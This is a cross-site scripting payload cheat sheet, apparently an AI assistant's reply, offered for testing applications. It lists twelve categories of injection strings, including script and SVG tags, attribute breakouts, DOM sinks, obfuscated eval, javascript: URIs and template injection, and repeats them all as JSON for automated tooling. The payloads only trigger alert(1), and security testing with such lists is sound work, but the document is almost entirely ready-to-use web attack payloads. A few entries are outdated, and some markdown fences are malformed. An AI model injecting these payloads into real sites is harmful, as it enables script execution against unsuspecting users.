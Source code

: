 Here’s a comprehensive list of all major types of XSS payloads, categorized by context and attack method. These are useful for testing applications for XSS vulnerabilities in different areas:


---

1. Basic Payloads

```html

<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<body onload=alert(1)>
<video><source onerror="alert(1)">

```

---

2. Attribute Injection

```html
"><img src=x onerror=alert(1)>
"><input onfocus=alert(1) autofocus>
"><div onmouseover=alert(1)>hover me</div>
"><a href="javascript:alert(1)">click</a>

```

---

3. DOM-based XSS

```html
// URL: http://example.com/#<script>alert(1)</script>
document.location.hash
document.URL
document.write(untrusted_input)
location.href

Payload example for DOM sink:

<script>document.write(location.hash)</script>
```


---

4. Event Handler Payloads

```html
<svg onload=alert(1)>
<marquee onstart=alert(1)>
<math href="javascript:alert(1)">
<button onclick=alert(1)>Click</button>
<details open ontoggle=alert(1)>
```


---

5. Obfuscated Payloads

```html
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg oNLoAd=alert(1)>
```


---

6. Inline JavaScript Context

```html
" onerror="alert(1)
' onerror='alert(1)
"><script>alert(1)</script>
```


---

7. JavaScript URI Payloads

```html
<a href="javascript:alert(1)">Click</a>
<iframe src="javascript:alert(1)"></iframe>
```


---

```html
8. JSON/JavaScript Injection

{"name":"<script>alert(1)</script>"}

var data = "<img src=x onerror=alert(1)>";
```


---

9. CSS Injection (in rare cases)

```html
<style>@import 'javascript:alert(1)';</style>
<div style="background:url(javascript:alert(1))">


---

10. AngularJS/VueJS Context (Template Injection)

```html
{{constructor.constructor('alert(1)')()}}
{{alert(1)}}
```


---

11. Inline SVG Injection

```html
<svg><script>alert(1)</script></svg>
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
```


---

12. HTML5 Form Elements

```html
<keygen autofocus onfocus=alert(1)>
<meter value=100 min=0 max=200 onmouseover=alert(1)>
<progress value=100 max=200 onmouseover=alert(1)>
```

---

Would you like a downloadable list or JSON/CSV format for automation or tool integration?

```json
{
  "basic_payloads": [
    "<script>alert(1)</script>",
    "<svg onload=alert(1)>",
    "<img src=x onerror=alert(1)>",
    "<iframe src=\"javascript:alert(1)\"></iframe>",
    "<body onload=alert(1)>",
    "<video><source onerror=\"alert(1)\">"
  ],
  "attribute_injection": [
    "\"><img src=x onerror=alert(1)>",
    "\"><input onfocus=alert(1) autofocus>",
    "\"><div onmouseover=alert(1)>hover me</div>",
    "\"><a href=\"javascript:alert(1)\">click</a>"
  ],
  "dom_based_xss": [
    "<script>document.write(location.hash)</script>",
    "<script>document.write(document.URL)</script>"
  ],
  "event_handler_payloads": [
    "<svg onload=alert(1)>",
    "<marquee onstart=alert(1)>",
    "<math href=\"javascript:alert(1)\">",
    "<button onclick=alert(1)>Click</button>",
    "<details open ontoggle=alert(1)>"
  ],
  "obfuscated_payloads": [
    "<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>",
    "<IMG SRC=JaVaScRiPt:alert(1)>",
    "<svg oNLoAd=alert(1)>"
  ],
  "inline_javascript": [
    "\" onerror=\"alert(1)",
    "' onerror='alert(1)",
    "\"><script>alert(1)</script>"
  ],
  "javascript_uri": [
    "<a href=\"javascript:alert(1)\">Click</a>",
    "<iframe src=\"javascript:alert(1)\"></iframe>"
  ],
  "json_js_injection": [
    "{\"name\":\"<script>alert(1)</script>\"}",
    "var data = \"<img src=x onerror=alert(1)>\";"
  ],
  "css_injection": [
    "<style>@import 'javascript:alert(1)';</style>",
    "<div style=\"background:url(javascript:alert(1))\">"
  ],
  "angular_vue_template_injection": [
    "{{constructor.constructor('alert(1)')()}}",
    "{{alert(1)}}"
  ],
  "svg_injection": [
    "<svg><script>alert(1)</script></svg>",
    "<svg><a xlink:href=\"javascript:alert(1)\">CLICK</a></svg>"
  ],
  "html5_elements": [
    "<keygen autofocus onfocus=alert(1)>",
    "<meter value=100 min=0 max=200 onmouseover=alert(1)>",
    "<progress value=100 max=200 onmouseover=alert(1)>"
  ]
}
```
